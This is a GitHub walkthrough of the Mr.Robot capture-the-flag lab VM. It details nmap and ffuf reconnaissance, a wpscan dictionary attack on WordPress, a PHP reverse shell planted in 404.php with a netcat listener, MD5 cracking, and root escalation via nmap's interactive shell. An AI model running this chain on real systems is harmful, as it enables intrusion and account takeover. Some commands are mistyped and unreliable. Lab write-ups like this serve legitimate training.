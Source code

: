 # Mr.Robot-Walkthrough-FalseBeliefsYT
Walkthrough for Mr.Robot virtual machine


Starting the attack I had to identify the virtual machine IP addr. I did this by running rubicon which is a script I programmed. The nmap scrip that it runs is "nmap -sn 192.168.0.0/24". This scans the range of IP's in that range to list all IP's on my network. To recreate this on your own network run ifconfig and if it returns 192.168.1.XXX then use 192.168.1.0/24 as your range or adapt for your IP addr. As you can see the NMAP scan returned the information below and I determined that the target IP addr is 192.168.0.166

Script: nmap -sn 192.168.0.0/24

![image](https://github.com/user-attachments/assets/2f567524-3325-406a-8160-a38b03c63eb0)

After identifying the machine to attack I ran an nmap scan on the machine and seen it was running port 80, so I hopped on firefox and went to the IP addr

Script: nmap 192.168.0.166


![Screenshot from 2024-09-25 19-15-41](https://github.com/user-attachments/assets/babb5a6b-d851-46ac-9bfa-4d2fe35515da)

Once on the website I let it load

![Screenshot from 2024-09-25 19-15-51](https://github.com/user-attachments/assets/25d625f3-5497-4e4d-8f48-0e30e50b6241)

through a ffuf scan I seen there was a robots.txt file. Makes sense to check that the machine being name Mr.Robot, upon entering the webpage 192.168.0.166/robots.txt I seen 2 files. so I quickly used wget to downlaod them to my machine

Script: ffuf -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt:FUZZ -u http://192.168.0.166/FUZZ

Script: wget http://192.168.0.166/key-1-of-3.txt

![Screenshot from 2024-09-25 19-20-58](https://github.com/user-attachments/assets/43f0ccde-d435-470b-b11e-e7c95c19e856)

Script: wget http://192.168.0.166/fsocity.dic

![Screenshot from 2024-09-25 19-21-20](https://github.com/user-attachments/assets/1615f6b9-eb4b-4d6f-9a57-fadb9ca2d93c)

The fuff scan I ran also told me WordPress was running on the machine so I went to 192.168.0.166/wp-login

![Screenshot from 2024-09-25 19-18-26](https://github.com/user-attachments/assets/55610244-c20d-4f6e-bc7d-3112100e6c29)

while that was loading I decided to cat out the fsocity.dic and seen it had alot of repeated words. I ran a sort command for the unique words and outputted it to a file call sorted_fsocity.dic

Script: cat fsocity.dic | sort -u sorted_fsocity.dic

![Screenshot from 2024-09-25 19-21-48](https://github.com/user-attachments/assets/2fee498f-8953-4aae-bb65-973431778bd8)

I then ran a wpscan to enumerate information about the Wordpress website

Script: wpscan --url http://192.168.0.166/wp-login -u e

After that I found the user Elliot and ran a dictionary attack on the user elliot on the WordPress link and found the password ER28-0652

Script: wpscan --url http://192.168.0.166/wp-login -P sorted_fsocity.dic -U elliot

![image](https://github.com/user-attachments/assets/ad93a3bd-4968-4fc1-8024-dc00ab702a55)

After that I logged into the WordPress site and after some digging I found I could edit files as user elliot. I edited the 404.php file located in Appearance -> Editor on the WordPress site with the reverse-php-script from pentestmonkey (https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) and changed the IP address to match mine.

![Screenshot from 2024-09-25 19-25-59](https://github.com/user-attachments/assets/e0b4c368-5bc7-4631-aa7b-9f53a26e5502)

![Screenshot from 2024-09-25 19-25-21](https://github.com/user-attachments/assets/7cc156ad-cade-4d09-be02-b6d82d2f180b)

![Screenshot from 2024-09-25 19-26-15](https://github.com/user-attachments/assets/b910d9dd-1454-41b8-b181-11f63d2aa7ff)

After that I setup a netcat listener on port 1234 on my local machine and went to a page that didnt exist to activate the reverse shell

Script: nc -nlvp 1234

![Screenshot from 2024-09-25 19-27-43](https://github.com/user-attachments/assets/aef9af1f-d277-443b-a889-8a600cb8024b)

![Screenshot from 2024-09-25 19-28-20](https://github.com/user-attachments/assets/157a749a-9a86-488a-b0aa-9ff5c4c5ab97)

And we got our reverse shell!!

![Screenshot from 2024-09-26 19-16-25](https://github.com/user-attachments/assets/26f3b32f-a639-4a36-8f83-86998cf4c9b7)

I then spawned a bash shell with python

Script: python -c "import pty;pty.spawn('/bin/bash')"

![Screenshot from 2024-09-26 19-22-20](https://github.com/user-attachments/assets/20531b44-9293-4550-867e-30bfbcef487b)

I ran sudo -l to see what the user could run as root. daemon couldnt run anything as root!

Script: sudo -l

![Screenshot from 2024-09-26 19-23-09](https://github.com/user-attachments/assets/1b0b0117-d807-4256-b884-105f00e1c0f1)


I then checked the home directory to see what users were on the machine and found a user called robot

Script: ls /home/

![Screenshot from 2024-09-26 19-25-14](https://github.com/user-attachments/assets/eb437a6c-c438-48b0-963c-62b8f7cc41a8)


I then cd'ed into the users directory and listed out all the files. I found a password.raw-md5 file (pink) and a key-2-of-3.txt file (yellow) I attemped to cat out the key file to no avail and the MD5 hash for the robot users password was in the password.raw-md5 file.

![image](https://github.com/user-attachments/assets/4c12a6ae-134c-4a36-aa94-9f4f99a0cd86)

I used a website to decode the hash (hashes.com) and it gave me the password abcdefghijklmnopqrstuvwxyz

![image](https://github.com/user-attachments/assets/66d637d4-d13b-4bec-b510-f426ad9fe67b)

I then SU into robot

Script: su robot
Password: abcdefghijklmnopqrstuvwxyz

![Screenshot from 2024-09-26 19-29-54](https://github.com/user-attachments/assets/0b131049-684d-45ff-bf26-7379423eea44)

Now that I was the user robot I tried to cat out the key file and got the next key

![Screenshot from 2024-09-26 19-30-19](https://github.com/user-attachments/assets/4aa087bd-b138-4528-a4f9-d1da8b10c4ee)

After that I cd'ed into the usr/local/bin to see what custom scrips or scripts I could use where there and found nmap so I started an interactive mode nmap scan and ran !sh to spawn a root shell because nmap I seen nmap was running version 3.18 using nmap -V.

Script: cd /usr/local/bin
Script nmap -V
Script: nmap --interactive
Script !sh

![Screenshot from 2024-09-26 19-32-19](https://github.com/user-attachments/assets/61e22a49-c99f-43a1-aca9-c08856517a3e)

Finally I cd'ed to the root folder and cat'd out the last key file needed to complete this machine

Script: cat /root/key-3-of-3.txt

![Screenshot from 2024-09-26 19-32-56](https://github.com/user-attachments/assets/963aa2a4-335e-4466-b092-5c7ed02184e3)

NOTE:
I ran into an issue where the reverse shell wasn't working. Ensure there are no firewall settings blocking you machine from being connected to. To stop the standard kali linux firewall run "sudo systemsctl stop ufw" and run "sudo systemsctl start ufw" to start it back up when you're done. Cyber Saftey is super important.
